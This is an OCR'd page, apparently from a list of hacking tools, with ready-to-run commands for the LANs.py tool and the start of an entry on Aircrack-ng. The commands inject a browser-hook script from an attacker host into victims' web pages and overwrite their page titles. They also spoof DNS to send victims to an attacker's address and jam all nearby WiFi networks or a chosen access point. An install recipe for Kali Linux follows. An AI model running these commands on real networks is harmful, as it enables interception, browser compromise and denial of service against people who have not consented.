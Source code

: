 python LANs.py -b http://192.168.0.5:3000/hook.js

python LANs.py -c '<title>Owned.</title>'

  

**Read from pcap:**

python LANs.py -pcap libpcapfilename -ip 192.168.0.10

  

**DNS spoofing**

python LANs.py -a -r 80.87.128.67

python LANs.py -dns eff.org

  

Example 1: The -a option will spoof every single DNS request the victim makes and when used in conjunction with -r it will redirect them to -r's argument address. The victim will be redirected to [stallman.org](http://stallman.org/) (80.87.128.67) no matter what they type in the address bar.

  

Example 2: This will spoof the domain [eff.org](http://eff.org/) and subdomains of [eff.org](http://eff.org/). When there is no -r argument present with the -a or -dns arguments the script will default to sending the victim to the attacker's IP address. If the victim tries to go to [eff.org](http://eff.org/) they will be redirected to the attacker's IP.

  

**Most aggressive usage:**

python LANs.py -v -d -p -n -na -set -a -r 80.87.128.67 -c '<title>Owned.</title>' -b http://192.168.0.5:3000/hook.js -ip 192.168.0.10

Jam all WiFi networks:

python LANs.py --jam

Jam just one access point (router):

python Lans.py --jam --accesspoint 01:MA:C0:AD:DY

  

**How to install LANs.py on Kali Linux**

sudo apt-get install -y python-nfqueue python-scapy python-twisted nbtscan

git clone https://github.com/DanMcInerney/LANs.py.git

cd LANs.py/

sudo ./LANs.py --help

  

---

**Aircrack-ng (Suite of Tools)**

[http://aircrack-ng.org/](http://aircrack-ng.org/)

Aircrack-ng is a complete suite of tools to assess WiFi network security.
